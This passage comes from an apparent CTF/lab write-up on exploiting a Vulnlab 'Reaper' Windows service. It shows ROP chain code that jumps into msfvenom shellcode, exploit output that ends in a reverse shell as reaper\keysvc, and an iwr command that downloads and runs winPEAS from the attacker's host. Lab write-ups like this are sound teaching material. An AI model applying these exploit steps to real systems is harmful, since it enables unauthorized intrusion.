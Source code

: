 After running through this ropchain our actual stack page is now executable, all that is left to do now is to generate some shellcode (using msfvenom for example) and jmp right into it. 

```python
# Start shellcode
rop += p64(pbase + 0x000000000001becd) # push rsp; and al, 8; ret; 
rop += b"\x90" * 8 # some nops
rop += sc # shellcode from msfvenom
```

you can download the final exploit here: [exploit-user-final.py](/images/exploit-user-final.py) (will be published at a later time, as requested by xct)

### final exploit in action

```
root@kali2:~/vulnlab/Reaper# python3 exploit-user-final.py 
[*] generating shellcode, takes a bit
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of python file: 2210 bytes
Saved as: sc.py
[+] Opening connection to 10.10.74.149 on port 4141: Done
[*] leaking program base
[*] program base: 0x7ff6b28f0000
[*] building ropchain
[*] sending payload
[*] starting listener
[+] Trying to bind to :: on port 5555: Done
[+] Waiting for connections on :::5555: Got connection from ::ffff:10.10.74.149 on port 50405
[*] Switching to interactive mode
Microsoft Windows [Version 10.0.19045.3208]
(c) Microsoft Corporation. All rights reserved.

C:\keysvc>$ whoami
whoami
reaper\keysvc

C:\keysvc>$  
```

## shell as reaper\\keysvc
So, we made it onto the box :-) let’s look around a bit. We upload winpeas for enumeration to ``c:\programdata`` and look for stuff which sticks out. I found two interesting things:
- a driver directory on c:\ with a definitely non-standard driver named reaper.sys :-)
- a PowerShell command history file

```
C:\ProgramData>$ powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\ProgramData> $ iwr 10.8.0.73/winPEASx64.exe -o winPEASx64.exe
PS C:\ProgramData> $ .\winPEASx64.exe

...
PS history file: C:\Users\keysvc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
PS history size: 156B
...

```